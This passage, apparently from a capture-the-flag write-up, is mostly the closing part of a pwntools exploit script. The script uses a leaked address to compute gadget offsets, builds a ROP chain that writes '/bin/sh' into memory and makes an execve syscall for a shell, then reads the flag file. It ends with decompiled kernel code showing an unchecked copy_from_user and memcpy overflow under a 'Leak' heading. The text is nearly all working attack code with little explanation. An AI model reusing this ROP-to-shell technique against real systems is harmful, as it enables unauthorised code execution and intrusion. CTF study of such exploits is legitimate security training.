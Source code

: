 ```python
        # 67530 or 68530 or 65530
        module_base = leak & 0xfffffffffffff000
        module_base -= 0x65000 # 67 68 65 6a
        module_base -= 0x1c000

        log.success(hex(module_base))
        prsp = module_base + 0x1128F + 8
        prbp = module_base + 0x1129C + 8
        prdi = module_base + 0x011326 + 8
        prsi = module_base + 0x11319 + 8
        prdx = module_base + 0x11333 + 8
        prax = module_base + 0x1135A + 8
        syscall = module_base + 0x11367
        mov_gadget = module_base + 0x000000000000ea61 # : mov qword ptr [rax], rdx ; nop ; pop rbp ; ret

        sla(b'> ', str(2))
        payload = b''
        payload += p64(prax)
        payload += p64(leak)
        payload += p64(prdx)
        payload += b'/bin/sh\x00'
        payload += p64(mov_gadget)
        payload += p64(0)
        payload += p64(prax)
        payload += p64(0x3b)
        payload += p64(prdi)
        payload += p64(leak)
        payload += p64(prsi)
        payload += p64(0)
        payload += p64(prdx)
        payload += p64(0)
        payload += p64(syscall)
        sla(b'> ', payload)
        sla(b'> ', b'3')
        rvu(b'Good Luck')
        sleep(1)
        p.sendline('id')
        sleep(1)
        p.sendline('id')
        sleep(1)
        p.recvline()
        rv = p.recv(timeout = 5)
        if b'uid' in rv:
            break
    except EOFError:
        p.close()
    # 297
p.sendline('cat /home/ctf/flag')
p.interactive()
```
# Leak
## Vulnerability
```c
      else
      {
        copy_from_user(&buf, usr[1], LODWORD(usr[0]));
        memcpy(v6, &buf, LODWORD(usr[0]));
        return 1337LL;
      }
```